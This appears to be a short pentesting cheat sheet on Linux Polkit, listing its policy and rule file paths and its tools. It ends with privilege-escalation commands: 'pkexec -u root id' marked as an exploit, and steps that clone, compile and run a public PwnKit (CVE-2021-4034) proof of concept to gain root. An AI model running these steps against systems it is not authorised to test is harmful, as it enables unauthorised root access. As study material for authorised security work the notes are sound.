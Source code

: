 # Polkit

* **Polkit (PolicyKit)**: Authorization service in Linux for managing user permissions.
* Controls whether a user can perform privileged actions (like mounting drives, restarting services).

#### Polkit File Structure:

*   **Actions/Policies**:

    `/usr/share/polkit-1/actions`
*   **Rules**:

    `/usr/share/polkit-1/rules.d`
*   **Local Authority Rules** (user/group based):

    `/etc/polkit-1/localauthority/50-local.d/*.pkla`

#### Polkit Tools:

* `pkexec` → Run command as another user (like `sudo`)
* `pkaction` → List all available polkit actions
* `pkcheck` → Verify if action is authorized for a process

```bash
pkexec --version
#exploit 
pkexec -u root id
# uid=0(root) gid=0(root)
```

***

#### CVE-2021-4034 (PwnKit)

```c
git clone <https://github.com/arthepsy/CVE-2021-4034.git>
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
./poc
id  # → uid=0(root)
```
